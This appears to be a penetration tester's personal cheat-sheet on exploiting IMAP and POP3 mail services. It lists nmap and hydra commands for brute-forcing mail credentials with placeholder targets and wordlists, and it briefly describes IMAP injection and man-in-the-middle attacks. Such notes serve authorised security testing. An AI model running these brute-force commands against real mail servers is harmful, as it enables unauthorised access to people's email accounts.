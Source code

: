 ```yaml
---
id: Exploitation
aliases: []
tags: []
---
```


# Exploitation

<!-- Checklist {{{-->
## Checklist

### IMAP

- [ ] Try already discovered credentials
- [ ] [[Exploitation#Brute Force|Brute force]]
    - [ ] [[Exploitation#Nmap (IMAP)|Nmap]]
    - [ ] [[Exploitation#Hydra (IMAP)|Hydra]]

### POP3

- [ ] Try already discovered credentials
- [ ] [[Exploitation#Brute Force (POP3)|Brute Force]]
    - [ ] [[Exploitation#Nmap (POP3)|Nmap]]
    - [ ] [[Exploitation#Hydra (POP3)|Hydra]]

<!-- }}} -->

<!-- IMAP {{{-->
## IMAP

<!-- Brute Force {{{-->
### Brute Force

Brute force imap server credentials

<!-- Nmap {{{-->
#### Nmap (IMAP)

```sh
nmap --script imap-brute -p 143,993 <target_ip>
```

```sh
nmap -sV --script imap-brute -p <port> <target_ip>
```
<!-- }}} -->

<!-- Hydra {{{-->
#### Hydra (IMAP)

```sh
hydra -L <users.txt> -P <passwords.txt> imap://<target>
```

```sh
hydra -l <username> -P <passwords.txt> -f <target> imap -V
```

```sh
hydra -S -v -l <username> -P <passwords.txt> -s 993 -f <target> imap -V
```
<!-- }}} -->

<!-- }}} -->

<!-- IMAP Injection {{{-->
### IMAP Injection

[IMAP injection attacks](https://hackviser.com/tactics/pentesting/services/imap#imap-injection)
involve injecting malicious commands or data into IMAP requests
to exploit vulnerabilities in the server software
or gain unauthorized access to email accounts.
<!-- }}} -->

<!-- Man-in-the-Middle {{{-->
### Man-in-the-Middle

[MitM attacks](https://hackviser.com/tactics/pentesting/services/imap#man-in-the-middle-mitm-attacks)
on IMAP traffic can intercept and modify email messages exchanged
between the client and server, compromising the confidentiality
and integrity of email communication.
<!-- }}} -->

<!-- }}} -->

<!-- POP3 {{{-->
## POP3

<!-- Brute Force {{{-->
### Brute Force (POP3)

Brute force POP3 login credentials

#### Nmap (POP3)

```sh
nmap -p 110 --script pop3-brute --script-args userdb=users.txt,passdb=pass.txt <target>
```

#### Hydra (POP3)

```sh
hydra -L <users.txt> -P <passwords.txt> -f <target> pop3 -V
```

```sh
hydra -l <username> -P <passwords.txt> -f <target> pop3 -V
```
<!-- }}} -->

<!-- }}} -->
